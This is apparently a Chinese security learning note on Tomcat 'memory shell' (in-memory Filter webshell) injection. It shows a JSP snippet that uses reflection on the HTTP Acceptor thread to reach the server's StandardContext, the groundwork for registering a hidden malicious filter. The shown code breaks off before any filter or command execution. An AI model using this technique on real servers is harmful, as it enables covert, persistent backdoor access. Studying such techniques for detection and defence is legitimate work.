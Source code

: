 #### 方法五

通过Thread获取context

跟着这篇[文章](https://www.jianshu.com/p/e2774aa3e9ba)学习,大概找context的路径是酱紫的

threads[16]->target->endpoint->handler->proto->adapter->connector->service->engine->children(map)->map("localhost")->StandardEngine->children(map)->map('')->standardContext

![image-20220420180444920](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420180444920.png)

![image-20220420182450812](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420182450812.png)

总之知道在哪里可以获取到context后过程其实并不难,主要的是细心一层层往下慢慢剥开,还有个问题就是说有的成员变量是在父类中的,需要多次`getSuperclass()`

通过这种方式实现的Filter内存马

> 可能是由于反射的操作过于复杂了吧,idea在多个getSuperclass后并没有跟往常一样,在getDeclatedField的时候提示变量名,而且还没有提示filed找不到的异常需要处理,只是standardContext变量需要在一开始就定义好,不然后面就会判断该变量无法读取到

```jsp
<%
    StandardContext standardContext=null;
    ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
    Field field=threadGroup.getClass().getDeclaredField("threads");
    field.setAccessible(true);
    Thread[] threads=(Thread[])field.get(threadGroup);
    for(Thread thread:threads){
        if(thread!=null){
            //遍历线程数组,选出Acceptor的线程
            String name = thread.getName();
            System.out.println(name);
            if(thread.getName().contains("http")&&thread.getName().contains("Acceptor")){
                //获取到对应的线程
                Field targetField = thread.getClass().getDeclaredField("target");
                targetField.setAccessible(true);
                Runnable target1 = (Runnable) targetField.get(thread);

                Field endpointField = target1.getClass().getDeclaredField("endpoint");
                endpointField.setAccessible(true);
                Object endpoint1 = endpointField.get(target1);

                Field handlerField = endpoint1.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
                handlerField.setAccessible(true);
                Object handler1 = handlerField.get(endpoint1);

                Field protoField = handler1.getClass().getDeclaredField("proto");
                protoField.setAccessible(true);
                Object proto = protoField.get(handler1);

                Field adapterField = proto.getClass().getSuperclass().getSuperclass().getSuperclass().getDeclaredField("adapter");
                adapterField.setAccessible(true);
                Object adapter = adapterField.get(proto);

                Field connectorField = adapter.getClass().getDeclaredField("connector");
                connectorField.setAccessible(true);
                Object connector = connectorField.get(adapter);

                Field serviceField = connector.getClass().getDeclaredField("service");
                serviceField.setAccessible(true);
                Object service = serviceField.get(connector);

                Field engineField = service.getClass().getDeclaredField("engine");
                engineField.setAccessible(true);
```